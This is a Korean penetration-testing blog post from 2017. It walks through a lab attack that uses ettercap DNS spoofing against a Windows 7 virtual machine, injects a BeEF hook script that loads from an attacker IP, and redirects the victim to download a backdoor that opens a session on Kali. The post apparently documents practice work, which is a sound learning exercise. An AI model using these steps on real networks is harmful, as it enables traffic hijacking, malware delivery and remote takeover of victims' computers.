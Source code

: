---
layout: post
title: DNS Spoofing & 악성코드 배포
description: "DNS_Spoofing"
modified: 2017-07-26
tags: [penetration_testing,Metasploit,DNS_Spoofing,Backdoor]
categories: [penetration testing]
image:
    feature:
    credit:
    creditlink:
author:
    name: "박준영"
    bio: 아아 BOB되고싶다
    email: pjya0321@naver.com
    github: jy31241
    site: https://www.instagram.com/jypark_321/
---

크게 두 단계로 나누면  
1.내장툴 ettercap 을 사용해서 DNS스푸핑 공격을 한다.  
2.beef를 사용해서 백도어가 다운되게 리다이렉션 한다.  

![1]({{ site.url }}/assets/postimage/DNS1.png)

etter.dns 파일을 위와같이 수정해준다.  

![2]({{ site.url }}/assets/postimage/DNS2.png)

아파치서버를 실행시킨다.  

![3]({{ site.url }}/assets/postimage/DNS3.png)

칼리리눅스 내장툴인 ettercap 을 실행시킨다.  

1. eth0을 잡고 호스트를 스캔한다.  
2. 게이트웨이를 타겟1에/ 공격대상을 타겟2로 설정해준다.  
3. ARP 포지셔닝에서 Sniff remote connection을 체크한다.  
4. 플러그인에서 dns_spoof 를 설정한다.  

![4]({{ site.url }}/assets/postimage/DNS4.png)

공격대상인 윈7 가상환경에서 네이버에 접속하면 미리 만들어둔  
/var/www/html 경로의 index.html 의 내용이 연결된다.  

![5]({{ site.url }}/assets/postimage/DNS5.png)

Beef 서버를 실행시키고. Hook URL을 위에 연결된 index.html에 넣어준다.  

script src="http://192.168.254.129:3000/hook.js"type="text/javascript"  

![6]({{ site.url }}/assets/postimage/DNS6.png)

/var/www/html 경로에 악성백도어를 저장하고,  
UI패널을 열어서 (id/pw = beef/beef) 로그인을 한 뒤,리다이렉션 주소에 악성백도어 파일명.확장자명 을 입력한다.  
그리고 적용시킨다.  

![7]({{ site.url }}/assets/postimage/DNS7.png)

윈도우7 화면에는 kangol.exe 파일이 다운로드가 되었다.  
(중간에 네이버처럼 보이도록 연결될 html을 수정했다)  

![8]({{ site.url }}/assets/postimage/DNS8.png)


윈도우7에서 다운받은 백도어를 실행시키면 칼리에서 세션이 열린것을 확인 할 수 있다.  




